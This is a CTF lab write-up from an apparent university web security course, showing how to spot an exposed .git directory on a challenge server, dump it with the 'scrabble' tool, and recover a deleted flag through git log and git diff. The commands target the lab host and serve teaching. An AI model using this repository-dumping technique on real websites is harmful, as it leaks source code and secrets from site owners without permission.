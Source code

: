 ```yaml
---
title: Simple Web 0x01(Lab - `gitleak`)
tags: [CTF, Web, NTUSTWS]

category: "Security/Course/NTUST WS/Information Leak"
---
```


# Simple Web 0x01(Lab - `gitleak`)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9000/

## Exploit - gitleak + basic Git command
1. Use the extension of Firefox(or Google), `Dotgit`, to check if the website actually has `git leak problem`
![](https://i.imgur.com/ZtMbj9z.png)

2.  denny0223/scrabble
To use scrabble tool to leak information
    ```bash!
    $ git clone https://github.com/denny0223/scrabble.git
    $ cd scrabble
    $ sudo ./scrabble http://h4ck3r.quest:9000/
    ```
3. Still no flag
There's `flag.php` but still no flag in there. `HEAD` said `HEAD is now at a0228bd Remove flag.`
Thus, we can look up the history by the command below.
    ```bash!
    $ git log --stat a0228bd
    commit a0228bd6ff968f3eca017125a5434b517ad2a83a (HEAD -> master)
    Author: splitline <tbsthitw@gmail.com>
    Date:   Wed Mar 9 16:23:46 2022 +0800

        Remove flag.

     flag.php | 2 +-
     1 file changed, 1 insertion(+), 1 deletion(-)

    commit 6cfe38db75ec90126f53088ea87c286c83c1bfb3
    Author: splitline <tbsthitw@gmail.com>
    Date:   Wed Mar 9 16:23:15 2022 +0800

        Init

     flag.php  | 5 +++++
     index.php | 1 +
     2 files changed, 6 insertions(+)
    ```
4. Check the difference of commit version
    ```bash!
    $ git diff HEAD <commit-id>
    diff --git a/flag.php b/flag.php
    index d1f8785..5b6cf79 100644
    --- a/flag.php
    +++ b/flag.php
    @@ -1,5 +1,5 @@
     <?php
    -// No flag for you!
- [ ]     +$FLAG = "FLAG{gitleak_is_fun}";
     ?>

     Flag is in the source code.
    \ No newline at end of file
    ```